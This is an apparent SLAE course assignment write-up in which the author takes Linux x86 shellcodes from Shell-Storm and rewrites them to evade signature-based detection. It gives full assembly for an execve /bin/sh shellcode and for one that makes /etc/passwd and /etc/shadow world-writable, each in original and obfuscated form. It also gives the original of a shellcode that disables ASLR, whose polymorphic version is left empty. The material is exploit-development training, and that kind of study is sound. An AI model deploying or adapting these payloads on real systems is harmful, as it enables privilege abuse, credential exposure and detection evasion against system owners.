 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#6: What to do ?
For this assignment we have to:
* Take up to 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching.
* The polymorphic version cannot be larger 150% of the existing shellcode. 

Bonus points:
* Making the shellcode shorter than the original.

Now, let's get to work.
=

## 1) First shellcode: execve shellcode
* Original length: 23 bytes
* Polymorphic length: 33 bytes (increase of 30%)
* Source: http://shell-storm.org/shellcode/files/shellcode-827.php

### The original version:
```asm
;Shellcode size : 23 bytes
global _start

_start:
    xor eax, eax            ;initialize eax to NULL
    push eax                ;push NULL on the stack
    
    push 0x68732f2f     
    push 0x6e69622f         ;push /bin/sh
    mov ebx, esp            ;intialize ebx to "/bin/sh%00"

    push eax                ;Push NULL on the stack
    push ebx                ;Push '/bin/sh%00' on the stack
    mov ecx, esp            ;intialize ecx to "/bin/sh%00"

    mov al, 0xb             ;move the systemcall number 

    ;Systemcall details:
    ; --> execve("/bin/sh%00", ["/bin/sh%00", NULL], NULL)
    int 0x80                ;execute systemcall
```

### The polymophic version:
```asm
;Shellcode size: 33 bytes
global _start

_start:
    xor eax, eax            ;initialize eax to NULL
    push eax                ;Push NULL on the stack
    
    mov edx, 0xb6de91c0     ;Move 0xb6de91c0 into edx 
    xor edx, 0xdeadbeef     ;Xor 0xb6de91c0 with 0xdeadbeef
    push edx                ;Push '//sh' on the stack
    push 0x6e69622f         ;Push '/bin' on the stack
    mov ebx, esp            ;Initilialize ebx to "/bin/sh%00"

    push 0x1                ;Push 0x1 on the stack
    pop ecx                 ;Pop 0x1 inside ecx
    dec ecx                 ;dec ecx by one
    xor edx, edx            ;initialize edx to NULL

    push 0xb                ;Push 0xb on the stack
    pop eax                 ;Pop the execve systemcall number inside eax 

    ;Systemcall details:
    ; --> execve("/bin/sh%00", NULL, NULL)
    int 0x80                ;execute systemcall
```

## 2) Second shellcode: change "/etc/shadow" permissions shellcode
* Original length: 59 bytes
* Polymorphic length: 84 bytes (increase of 30%)
* Source: http://shell-storm.org/shellcode/files/shellcode-812.php

### The original version:
```asm
;Shellcode size : 59 bytes
global _start

_start:
    xor eax, eax                        ;Initialize eax to NULL
    mov cx, 0x1b6                       ;Move 0x1b6 inside cx (666 in octal)
    push eax                            ;Push a NULL byte on the stack 
    push 0x64777373
    push 0x61702f2f
    push 0x6374652f                     ;Push "/etc//passwd%00" on the stack
    mov ebx, esp                        ;Initialize ebx to the esp stack pointer
    mov al, 0xf                         ;move the systemcall number inside eax

    ;Systemcall details:
    ; --> chmod("/etc/passwd%00", 0666o)
    int 0x80                            ;execute systemcall

    xor eax, eax                        ;Initialize eax to NULL
    push eax                            ;Push a NULL byte on the stack 
    push 0x776f6461
    push 0x68732f2f
    push 0x6374652f                     ;Push "/etc//shadow%00" on the stack
    mov ebx, esp                        ;Initialize ebx to the esp stack pointer
    mov al, 0xf                         ;move the systemcall number inside eax


    ;Systemcall details:
    ; --> chmod("/etc/shadow%00", 0666o)
    int 0x80                            ;execute systemcall


    xor eax, eax                        ;Initialize eax to NULL
    xor ebx, ebx                        ;Initialize eax to NULL
    inc eax                             ;move the systemcall number inside eax
    ;Systemcall details:
    ; --> exit(0)
    int 0x80                            ;execute systemcall
```

### The polymophic version:
```asm
;Shellcode size : 84 bytes
global _start

_start:
    xor eax, eax                        ;Initialize eax to NULL
    mov cx, 0x1b6                       ;Move 0x1b6 inside cx (666 in octal)

    mov dword [esp + 12], eax           ;Push a NULL byte on the stack
    mov dword [esp + 8], 0x64777373
    mov dword [esp + 4], 0x61702f2f
    mov dword [esp], 0x6374652f         ;Push "/etc//passwd%00" on the stack
    mov ebx, esp                        ;Initialize ebx to the esp stack pointer

    push 0xf                        
    pop eax                             ;move the systemcall number inside eax
    ;Systemcall details:
    ; --> chmod("/etc/passwd%00", 0666o)
    int 0x80                            ;execute systemcall


    xor eax, eax                        ;Initialize eax to NULL
    mov dword [esp + 12], eax           ;Push a NULL byte on the stack
    mov dword [esp + 8], 0x443C312E
    add dword [esp + 8], 0x33333333
    mov dword [esp + 4], 0x68732f2f
    mov dword [esp], 0x6374652f         ;Push "/etc//shadow%00" on the stack
    mov ebx, esp                        ;Initialize ebx to the esp stack pointer
    mov al, 0xf                         ;move the systemcall number inside eax

    ;Systemcall details:
    ; --> chmod("/etc/shadow%00", 0666o)
    int 0x80                            ;execute systemcall


    push 0x1
    pop eax                             ;move the systemcall number inside eax
    mov ebx, eax
    dec ebx                             ;Initialize ebx to 0
    ;Systemcall details:
    ; --> exit(0)
    int 0x80                            ;execute systemcall
```


## 3) Third shellcode: ASLR desactivation shellcode
* Original length: 83 bytes
* Polymorphic length: XX bytes (increase of XX%)
* Source: http://shell-storm.org/shellcode/files/shellcode-813.php

### The original version:
```asm
;Shellcode size : 83 bytes
global _start

_start:
    xor eax, eax        ;Initialize eax to NULL
    push eax            ;Push NULL on the stack
    push 0x65636170
    push 0x735f6176
    push 0x5f657a69
    push 0x6d6f646e
    push 0x61722f6c
    push 0x656e7265
    push 0x6b2f7379
    push 0x732f636f
    push 0x72702f2f     ;Push //proc/sys/kernel/randomize_va_space
    mov ebx, esp        ;Initialize ebx to "//proc/sys/kernel/randomize_va_space%00"
    mov cx, 0x2bc       ;Move 0x2bc on the stack which is 700 in decimal 
                        ;700 means the file is opened with READ, WRITE, EXECUTE flags.
    mov al, 0x8         ;Initialize al to systemcall number of "open"

    ;Systemcall details:
    ; --> fd = open("//proc/sys/kernel/randomize_va_space%00", S_IRWXU)
    int 0x80            ;Execute systemcall


    mov ebx, eax        ;Move the return value of "open" which is the file descriptor inside ebx
    push eax            ;Push the file descriptor on the stack
    mov dx, 0x3a30      ;Move 0x3a30 into edx
    push dx             ;push 0x3a30 on the stack
    mov ecx, esp        ;initialize ecx to stack pointer esp
    xor edx, edx        ;Initialize edx to NULL
    inc edx             ;Increment edx 
    mov al, 0x4         ;Initialize al to systemcall number of "write"

    ;Systemcall details:
    ; --> write(3, "0", 1)
    int 0x80            ;Execute systemcall


    mov al, 0x6         ;Initialize al to systemcall number of "close"
    ;Systemcall details:
    ; --> close(3)
    int 0x80            ;Execute systemcall


    xor eax, eax        ;Initialize al to systemcall number of "exit"
    xor ebx, ebx        ;Initiliaze ebx to NULL
    ;Systemcall details:
    ; --> exit(0)
    int 0x80            ;Execute systemcall
```

### The polymophic version:
```asm
```
